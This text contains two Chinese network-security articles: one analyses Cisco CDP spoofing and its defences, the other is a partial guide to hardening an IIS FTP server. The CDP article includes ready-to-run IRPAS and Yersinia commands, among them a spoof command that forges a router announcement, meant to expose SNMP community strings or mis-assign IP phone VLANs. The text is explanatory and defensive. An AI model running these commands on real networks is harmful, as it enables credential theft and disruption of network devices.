

图1



图2


图3





## Cisco CDP欺骗分析及防护

李晨光

熟悉Cisco的朋友都知道，CDP协议是思科公司独特的发现协议，在思科公司出产的所有路由器和交换机里面都能运行此协议。一台运行CDP的路由器或交换机能够得知与它直接相连的邻居端口和主机名信息。这时候黑客就会利用CDP欺骗攻击让网络管理员措手不及。下面给大家说明两种目标可能遭到CDP欺骗攻击及应对办法。

### 一、两种CDP欺骗类型

- 1. 针对中央管理软件  
  各种高端网管软件Cisco Works、IBM Tivoli、HP OpenView，都依赖CDP完成Cisco主机发现。如果发送伪造的CDP帧，声称在网络上新出现了一台Cisco设备，那么管理软件将试图通过SNMP与其联系，此时就有机会捕获所使用的SNMP Community name string。这样很可能是网络中其他Cisco设备所使用的名称，而且很可能会导致这些设备遭到攻击。此外，CDP欺骗还可用于恶作剧，分散网络管理员的注意力。

- 2. 针对Cisco IP电话  
  Cisco IP电话打开后，就会和相连的交换机开始交换CDP数据，相互识别。交换机利用CDP通知电话，让它知道语音流量将使用哪个VLAN。不难发现，这里有机会实施欺骗攻击，例如注入CDP帧。这样会为电话分配一个错误的VLAN。

这些手动伪造的CDP帧是如何制造出来的呢？主要有两种工具可定制伪造CDP帧。下面让我们先看看在Linux平台下IRPAS中的CDP工具程序。

下面我们看看IRPAS的安装和使用过程。

- 1. 下载  
  http://dag.wieers.com/rpm/packages/irpas/

- 2. 安装irpas包

```bash
rpm -ivh irpas-0.10-1.dag.src.rpm
cd /usr/src/redhat/SOURCES/
tar zxvf irpas-0.10.tar.gz
cd libpcap-0.4
./configure;make   （安装libpcap0.4不能省）
cd ..
make

[root@rhel5 SOURCES]# ./cdp
./cdp [-V] -i <interface> -m {0,1} ...
Flood mode (-m 0):
 -n <number> number of packets
 -l <number> length of the device id
 -c <char> character to fill in device id
 -r randomize device id string
Spoof mode (-m 1):
 -D <string> Device id
 -P <string> Port id
 -L <string> Platform
 -S <string> Software
 -F <string> IP address
 -C <capabilities>
These are:
 R - router, T - Trans Bridge, B - Source Route Bridge
 S - Switch, H - Host, I - IGMP, r - Repeater
```

- 3. 实例

```bash
./cdp -v -i eth1 -m 1 -D 'Router66' -P 'FastEthernet 0/1' -C R -L 'cisco' -S 'IOS 12.4.6' -F '192.168.1.9'
```

第二种工具就是Yersinia工具。Yersinia是执行第二层攻击的一个工具，帮助黑箱测试者在他的日常工作中检查2层协议配置的可靠性。Yersinia能够操作第二层网络协议，并允许攻击者通过向网络中注入伪生成树协议、DHCP、VLAN中继协议和其他信息来阻挡交换机。

- 1. 安装

```bash
tar zxvf yersinia-0.7.tar.gz
./configure;make;make install
```

- 2. 以GUI界面启动Yersinia，输入“Yersinia -G”（如图1）。
- 3. 以字符界面启动，输入“Yersinia -I”（如图2）。





### 二、CDP欺骗攻击的防御措施

运行CDP的交换机/路由器定时广播带有CDP更新数据的报文，用`cdp timer`命令决定CDP更新数据间隔，缺省值为60秒，而且CDP默认已启用。

我们在一台Cisco Catalyst 2924交换机上对CDP数据包做诊断输出信息，可以看到交换机在每个活动接口发送CDP数据包。

```bash
SW#debug cdp packet
03:36:26: CDP-PA Packet received from R1 on interface FastEthernet0/5
```

works或类似软件下，CDP模式的任何变化都会报告。如果要在Windows环境监控CDP的变化，建议使用CDP Monitor，安装好后运行界面（如图3、4、5）。

我们如何关闭CDP协议呢？需要在交换机/路由器的全局模式下用`no cdp enable`。如果是Cisco CatOS，则使用`set cdp disable`来禁用CDP。

### 三、监控CDP帧变化

由于CDP协议不实施侦察和认证，因此任何人都可以通过上面的方法在网络上发送定制CDP帧。没有什么更好的解决措施，除非不使用CDP。所以我们只有在发现非正常的CDP流量或意外的CDP设备后，立即开展调查，检查数据帧来自哪个MAC地址以及承载有何种信息。

通过这款软件，使得当CDP发生变化时可立即通过mail方式通知管理员，并鸣笛报警。综上所述，对于有没有彻底防治CDP脆弱性的方法，只能说让大家保持警惕，且没有什么更好的解决措施，除非首先就不使用CDP。





图3


图4



图5

## 深度加固IIS的FTP安全性

李晨光

FTP是一种常见的网络服务，即计算机之间进行文件传输的一种常用方法。然而FTP对广大直面各种网络攻击的网络安全工程师来说，工作中必然会遇到各种各样的FTP攻击。普通管理员会认为Windows FTP服务安全性比较弱，安全性无法保证，所以在Windows Server加装了第三方FTP程序，以满足自己的要求。

经过笔者多年研究发现，其实利用IIS下的FTP服务器，经过和系统配合设置就能很好地满足您的要求。所谓维护型安全FTP，是指不公开使用或者很少公开使用的、一般供网络管理员或者安全工程师在维护服务器时使用的FTP系统。这样的系统在工作中非常需要，但是因为本身不公开，所以安全性往往得不到足够的重视，成为很多攻击者喜欢攻击的目标。本文讲述了不为大家熟知的九种技巧，来介绍如何使用大家都不看好的IIS FTP Server构建足够供网络管理员维护使用且安全性足够高的FTP服务器。

### 一、指定FTP IP地址并修改默认端口

- 1. 使用专用IP进行FTP服务器搭建

以典型的Windows 2003 Server系统为例，安装完成IIS以及FTP以后，依次选择“开始->管理工具->Internet信息服务IIS管理器”（如图1）。

指向“FTP站点”右击鼠标并选择“新建->FTP站点”，进入“FTP站点创建向导”。在此向导中，重点介绍为即将建立的安全维护型FTP服务器指定IP地址并修改端口。

- 2. 使用足够隐蔽的端口进行通信

“端口”设置建议不使用默认端口，而是将默认端口设置成一个不常用的、大于10000且小于65535的端口号。

之所以要设置大于10000、小于65535，是因为很多端口扫描工具默认情况下都不会扫描这部分端口。攻击者如果手动设置扫描端口，出于时间和速度的考虑，也很少定义1-65535这样的端口扫描规则，所以很容易迷惑攻击者，让他们根本不知道原来还有一个高端端口隐藏在系统中发挥作用（如图2）。即便攻击者用扫描器扫到了这个端口，往往也会因为这个陌生端口而不明白具体运行的服务，需要详细探测才有可能发现是FTP服务。接下来，将对此新建的FTP服务器进行详细的安全配置。

### 二、定制详细的FTP日志记录相关信息

IIS的FTP系统有非常完善、丰富的日志记录系统。使用日志系统来记录FTP服务器的运行状态是非常重要的。

- 1. 启用FTP服务器的日志记录功能  
  在默认情况下，IIS管理器下FTP站点中的某个站点的FTP日志系统默认是启用的。

- 2. FTP服务器的高级日志配置  
  和普通FTP服务器要求不同，如果需要建立足够安全的FTP服务器，需要对日志系统进行详细的高级定义。定义的内容就是设置攻击者或者可能发生的攻击所存在的典型特征。

**详细需要定制的高级规则如下：**

“新日志计划”：此选项控制每个日志文件的生成规则，默认是每天生成一份新的FTP日志。

假定攻击者绕过了种种限制，对某目标FTP服务器进行了大批量的分布式暴力破解攻击，如果FTP日志按照默认记录方式记录，则会产生无比庞大的单一文件，有时候日志记录文件可能达到数十GB的大小，甚至超出系统盘空间，导致系统正常运行出现问题。

所以这里需要首先确定FTP日志按照文件大小来生成，选择“新日志计划”下的“当文件大小达到20MB”时开始生成新的日志记录文件，方便分析和调用。

“日志文件目录”：此选项非常重要，定义FTP日志的存放地址。默认存放在“C:\WINDOWS\system32\LogFiles”下（如图3）。

对于任何被攻击者广泛了解的默认选项，都应该在可允许范围内进行相关修改。同时，出于对操作系统所在盘的保护，建议将FTP日志系统定义到每个FTP用户单独使用的文件夹下，但不能赋予该用户对此日志记录文件的访问权限。

### 三、定义FTP服务器日志的详细记录规则

在配置好日志文件的生成规则和路径以后，需要对日志文件记录信息的类型进行详细配置。一个能记录绝大多数攻击者和使用者行为的日志文件应该包含以下记录信息：

- 日期（非默认选中，需要手动选中）；
- 时间（默认选中）；
- 客户端IP地址（默认选中）；
- 用户名（非默认选中，需要手动选中）；
- 方法（默认选中）；
- URL资源（默认选中）；
- 协议状态（默认选中）；
- Win32状态（默认选中）；
- 所用时间（非默认选中，需要手动选中）；
- 用户代理（非默认选中，需要手动选中）。

需要注意的是，并不是日志系统记录的信息越多越好，因为日志系统记录FTP用户（攻击者或者正常用户）的访问毕竟需要消耗资源，而且生成的日志记录同样需要存放空间。如果记录项目过多，可能引起系统资源消耗和日志文件占用空间过大的问题。

### 四、取消匿名访问

匿名访问是FTP服务器的默认设置，此设置可以很好地支持普通用户的FTP访问，但是要建立安全性足够的FTP服务器，此项设置必须去除（如图4）。

去除FTP服务器的匿名访问功能很简单，只需要指向IIS管理器下需要修改的FTP站点，右击并选择“属性”，进入“安全账户”标签，取消“允许匿名连接”前的√即可。

### 五、强制安全密码规则

在有意无意之中，一些用户的FTP账号密码设置得过于简单。为了提高FTP服务器的安全性，特别是需要建立安全性足够强的纯净型FTP服务器，必须强制用户设置复杂的账号密码。

#### 1. 组策略简介

在Windows系统中，密码规则设置是由组策略所控制的。简单地说，组策略设置就是在修改注册表中的配置。当然，组策略可以对各种对象中的设置进行管理和配置，远比手工修改注册表方便、灵活，功能也更加强大。

依次指向“开始→运行”，输入“gpedit.msc”进入Windows 2003 Server系统的组策略选项。进入组策略选项以后，在左方快速链接栏中依次指向“计算机配置→Windows设置→账户策略→密码策略”，这里可以设置很多密码相关安全规则（如图5）。

#### 2. 启用密码复杂性要求策略

在右侧窗体中找到“密码必须符合复杂性要求”项，然后双击打开后，选中“已启用”按钮（如图6），最后单击确定使之生效。

